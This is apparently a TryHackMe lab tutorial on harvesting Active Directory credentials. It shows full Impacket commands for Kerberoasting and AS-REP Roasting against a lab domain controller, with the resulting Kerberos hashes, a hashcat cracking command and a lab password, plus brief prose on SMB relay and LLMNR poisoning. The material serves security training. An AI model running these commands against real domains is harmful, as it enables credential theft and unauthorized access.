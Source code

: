 --- ---

<h2>Commands</h2>

<h3>Kerberoasting</h3>

Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS). This attack's end goal is to enable privilege escalation and lateral network movement. For more details about the attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 3).

Let's do a quick demo about the attack. First, we need to find an SPN account(s), and then we can send a request to get a TGS ticket. We will perform the Kerberoasting attack from the AttackBox using the GetUserSPNs.py python script. Remember to use the THM.red/thm account with Passw0rd! as a password.

Enumerating for SPN Accounts

```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.65.204 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
```

The previous command is straightforward: we provide the Domain Controller IP address and the domain name\username. Then the GetUserSPNs script asks for the user's password to retrieve the required information.

The output revealed that we have an SPN account, svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the srv-user user using the -request-user argument.

Requesting a TGS Ticket as SPN Account

```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.65.204 THM.red/thm -request-user svc-user 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
```

Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using `-m 13100` mode as follows,

Cracking the TGS Ticket using Hashcat

```shell-session
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

Try replicating the steps against the attached VM by finding the SPN user and then performing the Kerberoasting attack. Once you have obtained the ticket, crack it and answer the question below.


<h3>AS-REP Roasting</h3>

AS-REP Roasting is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "Do not require Kerberos pre-authentication". This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![AS-REP Roasting](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/81bf1dad6425f8f06b0026f4e748f193.png)  

The attached VM has one of the AD users configured with the "Do not require Kerberos preauthentication" setting. Before performing the AS-REP Roasting, we need a list of domain accounts that should be gathered from the enumeration step. In our case, we created a `users.lst` list in the tmp directory. The following is the content of our list, which should be gathered during the enumeration process.

```markup
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```

We will be using the Impacket Get-NPUsers script this time as follows,

Performing an AS-REP Roasting Attack against Users List

```shell-session
root@machine$ python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.65.204 thm.red/ -usersfile /tmp/users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We specified the IP address of the domain controller with the `-dc-ip` argument and provided a list of domain users to check against. Once the tool finds the right user with no preauthentication configuration, it will generate the ticket.

Various cybersecurity and hacking tools also allow cracking the TGTs harvested from Active Directory, including Rubeus and Hashcat. Impacket GetNPUsers has the option to export tickets as John or hashcat format using the `-format` argument.


<h3>SMB Relay Attack</h3>

The SMB Relay attack abuses the NTLM authentication mechanism (NTLM challenge-response protocol). The attacker performs a Man-in-the-Middle attack to monitor and capture SMB packets and extract hashes. For this attack to work, the SMB signing must be disabled. SMB signing is a security check for integrity and ensures the communication is between trusted sources. 

We suggest checking the THM [Exploiting AD](https://tryhackme.com/room/exploitingad) room for more information about the SMB relay attack.


<h3>LLMNR/NBNS Poisoning</h3>

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) help local network machines to find the right machine if DNS fails. For example, suppose a machine within the network tries to communicate with no existing DNS record (DNS fails to resolve). In that case, the machine sends multicast messages to all network machines asking for the correct address via LLMNR or NBT-NS.

The NBNS/LLMNR Poisoning occurs when an attacker spoofs an authoritative source on the network and responds to the Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) traffic to the requested host with host identification service. If you want to learn more about the attack, we suggest checking THM [Breaching AD](https://tryhackme.com/room/breachingad) room.

The end goal for SMB relay and LLMNR/NBNS Poisoning attacks is to capture authentication NTLM hashes for a victim, which helps obtain access to the victim's account or machine.